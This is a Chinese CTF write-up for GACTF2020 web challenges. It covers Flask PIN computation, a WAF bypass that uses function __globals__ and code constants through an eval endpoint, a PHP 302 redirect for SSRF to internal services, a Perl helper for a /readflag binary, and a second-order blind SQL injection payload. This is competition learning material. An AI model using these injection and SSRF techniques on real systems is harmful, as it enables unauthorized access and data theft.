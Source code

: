```yaml
---
title: GACTF2020
author: ch3n9w
typora-root-url: ../
date: 2020-08-29 15:49:36
categories:
  - CTF
---
```






## simpleflask



和以往的flask不一样的地方在于, 这里是经过更新后的flask, 计算pin码的方式已经和以前不一样了, 参考 https://www.chainnews.com/articles/898433701852.htm, 不过问题不大,就把machine-id拼接在docker那一串东西的前面就可以了, 需要注意的是每十分钟重启时候的机器mac地址是会变化的.

<!--more-->

![image-20211114141224625](image-20211114141224625.png)

## ezflask



点击看到代码

```python
# -*- coding: utf-8 -*- 
from flask import Flask, request 
import requests 
from waf import * 
import time 

app = Flask(__name__) 
@app.route('/ctfhint') 
def ctf(): 
    hint =xxxx # hints 
    trick = xxxx # trick 
    return trick 
    
@app.route('/') 
def index(): 
    # app.txt 
    
@app.route('/eval', methods=["POST"]) 
def my_eval(): 
    # post eval 
    
@app.route(xxxxxx, methods=["POST"]) # Secret 
def admin(): 
    # admin requests 
    # 
if __name__ == '__main__': 
    app.run(host='0.0.0.0',port=8080)
```

发现``" ' [ ( ``都被过滤了, 简直离谱

```
eval=ctf.__globals__
```

来查看ctf函数所处在的命名空间下所能接触到的变量和函数

```
{'my_eval': <function my_eval at 0x7fb525c35dd0>, 'app': <Flask 'app_1'>, 'waf_eval': <function waf_eval at 0x7fb525c35c50>, 'admin': <function admin at 0x7fb525b7f650>, 'index': <function index at 0x7fb525c35d50>, 'waf_ip': <function waf_ip at 0x7fb525c35b50>, '__builtins__': <module '__builtin__' (built-in)>, 'admin_route': '/h4rdt0f1nd_9792uagcaca00qjaf', '__file__': 'app_1.py', 'request': <Request 'http://124.70.206.91:10003/eval' [POST]>, '__package__': None, 'Flask': <class 'flask.app.Flask'>, 'ctf': <function ctf at 0x7fb525c35cd0>, 'waf_path': <function waf_path at 0x7fb525c35bd0>, 'time': <module 'time' from '/usr/local/lib/python2.7/lib-dynload/time.so'>, '__name__': '__main__', 'requests': <module 'requests' from '/usr/local/lib/python2.7/site-packages/requests/__init__.pyc'>, '__doc__': None}
```

发现了admin_route, 然后那里是可以发起一个对外请求的, 经过测试发现``127.0.0.1``和``0.0.0.0``及其变形都会触发警告并退出, 盲猜这里考察的是302重定向, 在服务端那里写下

```php
<?php
    header("Location: http://127.0.0.1:8080/");
?>
```

ssrf成功, 但是下一步干嘛呢? 

``__code__``, 函数的代码块

``__code__.co_consts`` 代码块中的所有常量的元组, 参考https://docs.python.org/3/library/inspect.html

```
eval=ctf.__code__.co_consts
```

```

(None, 'the admin route :h4rdt0f1nd_9792uagcaca00qjaf<!-- port : 5000 -->', 'too young too simple')
```

然后通过302重定向访问127.0.0.1:5000, 是一个常规的ssti,再次重定向

![image-20211114141232648](image-20211114141232648.png)



![image-20211114141239286](image-20211114141239286.png)



## XWIKI

找到了CVE, 然后根据例子反弹shell后发现有一个二进制文件, 会给你很多选择题比较大小的, 到这里就做不出来了, 不过看到其他选手的脚本, 这里记录一下.

```perl

use strict;
use IPC::Open3;

my $pid = open3( \*CHLD_IN, \*CHLD_OUT, \*CHLD_ERR, '/readflag' )
  or die "open3() failed $!";

my $r;
$r = <CHLD_OUT>;
print "$r";
$r = <CHLD_OUT>;
print "$r";
$r = eval "$r";
print "$r\n";
print CHLD_IN "$r\n";
$r = <CHLD_OUT>;
print "$r";
$r = <CHLD_OUT>;
print "$r";
```



## carefuleyes

在改名的地方进行二次注入

```
sd' or if(substr((select group_concat(username) from user where privilege='admin'),1,1)='X',exp(5000),1)#
```

得到用户名和密码之后进行序列化登陆就可以了

![image-20211114141249521](image-20211114141249521.png)
